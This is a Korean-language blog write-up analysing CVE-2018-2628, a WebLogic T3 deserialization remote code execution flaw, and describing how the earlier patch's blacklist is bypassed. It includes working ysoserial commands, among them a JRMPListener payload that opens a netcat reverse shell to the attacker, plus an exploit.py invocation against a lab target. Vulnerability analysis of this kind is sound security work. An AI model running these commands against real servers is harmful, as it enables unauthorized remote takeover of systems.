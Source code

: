 ```yaml
---
layout: article
title: "[CVE]CVE-2018-2628(WebLogic Server,RCE)"
key: 20180913
tags:
  - CVE
  - PoC
  - Web
  - RCE
sidebar:
  nav: sidem
toc: true
mathjax: true
mathjax_autoNumber: true
published : true
---
```


# [+] CVE-2018-2628(WebLogic Server)

<!--more-->

## [+] Summary

- Target : Oracle Weblogic Server
- CVE : [CVE-2018-2628](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-2628)
- Version : 10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3
- Vulnerability : 원격 명령 실행 (Remote Code Execution)
- Platform : 모든 플랫폼

## [+] Analysis

해당 취약점은 신뢰할 수 없는 데이터를 **역직렬화(Deserialize)**를 하며 발생하는 취약점으로 **RMI(Remote Method Invocation)** 통신 시 사용되는 **T3 Protocol**을 이용하며, 세션을 맺은 후 악의적인 페이로드를 전송하여 역직렬화된 임의의 코드가 실행되는 취약점이다.

[^역직렬화]: 직렬화를 통해 byte로 변환된 데이터를 원래의 객체나 데이터로 변환 
[^RMI Communication]: 원격 함수 호출로써 최종적인 목표는 RPC와 같으며 다른 네트워크의 객체 내 메소드 호출하는 것을 의미
[^T3 Protocol]: WebLogic Server와 다른 유형의 자바 프로그램 간의 정보를 전송하는데 사용

<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3248">CVE-2017-3248</a>(p24667634_1036_Generic) 으로 인한 패치 내용을 보면 '*resolveProxyClass*' 내에서 RMI 인터페이스의 '*java.rmi.registry.Registry*' 유형만 필터링하여 해당 취약점을 보완한 것을 확인할 수 있다.

```java
protected Class<?> resolveProxyClass(String[] interfaces) throws IOException, ClassNotFoundException {
   String[] arr$ = interfaces;
   int len$ = interfaces.length;
   for(int i$ = 0; i$ < len$; ++i$) {
      String intf = arr$[i$];
      if(intf.equals("java.rmi.registry.Registry")) { // 취약한 RMI 인터페이스
         throw new InvalidObjectException("Unauthorized proxy deserialization");
      }
   }
   return super.resolveProxyClass(interfaces);
}
```

그러나 블랙리스트 방식의 필터링을 사용하여 간단히 해당 인터페이스를 변경하여 우회가 가능하다.

해당 익스플로잇에 사용되는 도구는 **ysoserial**이란 도구로 Java의 직렬화, 역직렬화에서 발생하는 취약점을 이용해 RCE가 가능하게 하는 PoC 도구이며, 직렬화, 역직렬화 과정에서 '*Commons-Collections*' 라이브러리의 '*InvokerTransformer*' 를 악용하여 결과적으로 '*RuntimeExec*' 메소드를 호출하도록 만드는 도구이다. 위의 패치를 우회하기 위해 '*Registry*'가 아닌 '*Activator*'를 이용한다.

| Attacker     | Victim                           |
| ------------ | -------------------------------- |
| 192.168.1.86 | 192.168.1.13                     |
| Ubuntu linux | Windows (Weblogic Server 10.3.6) |

![1](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/1.png?raw=true "1"){:.border}

아래는 실행 중인 WebLogic Server의 'config.xml' 내용이다. 10.3.6 버전으로 취약한 버전에 해당된다.

```xml
<!--config.xml-->

<name>base_domain</name>
<domain-version>10.3.6.0</domain-version> <!--취약한 버전-->

+<security-configuration>
-<server>
	<name>AdminServer</name>
	-<server-debug>
		-<debug-scope>
			<name>weblogic.t3</name>
			<enabled>true</enabled>
		</debug-scope>
		-<debug-scope>
			<name>weblogic.t3.srvr</name>
			<enabled>true</enabled>
		</debug-scope>
		<debug-server-life-cycle>true</debug-server-life-cycle>
		<debug-server-start-statistics>true</debug-server-start-statistics>
	</server-debug>
	<listen-address/>
</server>
-<embedded-ldap>
	<name>base_domain</name>
	<credential-encrypted>{AES}eXPolKQ3q15ldCBGrLJhxLmy0Zvw/fUqvCSka6SrHVXGtdQkTKfzY6v2R3KNHOrX</credential-encrypted>
	</embedded-ldap>

<configuration-version>10.3.6.0</configuration-version>
<admin-server-name>AdminServer</admin-server-name>
```

아래의 명령어를 이용하여 페이로드에 포함 할 실행 명령어(*netcat*)와 RMI 통신 포트인 **1099**를 열고 대기한다.

```
[Command]
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'nc -e cmd.exe 192.168.1.86 4444'
```

![2](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/2.png?raw=true "2"){:.border}

그 후 익스플로잇 코드를 이용하여 아래의 명령어를 실행 시 페이로드가 전달되며 세션이 맺어지고 역직렬화를 통해 해당 명령어가 실행되어 Weblogic Server의 쉘을 획득하는 것을 볼 수 있다.

```
[Command]
python exploit.py <target_ip> <port> ysoserial <attacker_ip> <JRMPListner_port> JRMPClient2

ex)
python exploit.py 192.168.1.13 7001 ysoserial-0.0.6-SNAPSHOT-BETA-all.jar 192.168.1.86 1099 JRMPClient2
```

![3](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/3.png?raw=true "3"){:.border}

아래 패킷은 T3를 통해 7001 포트와 세션을 맺는 과정의 페이로드이다. 확인해보면 위에서 전달한 '*JRMPClient2(java.rmi.activation.Activator)*'를 이용하여 필터링을 우회하는 것을 볼 수 있다.

![4](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/4.png?raw=true "4"){:.border}

페이로드가 정상적으로 전달되어 세션을 맺고 RMI Port(1099)를 대기 중이던 공격자에게 서버가 **RMI Connection 요청**을 전달하는 것을 확인할 수 있다.

![5](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/5.png?raw=true "5"){:.border}

그리고 **RMI Communication**을 통해 공격자가 준비한 페이로드를 전달함으로써 서버에서 해당 명령어가 실행되며 공격자가 쉘을 획득하게 된다.

![6](https://github.com/Shhoya/Shhoya.github.io/blob/master/assets/images/cvecapture/6.png?raw=true "6"){:.border}

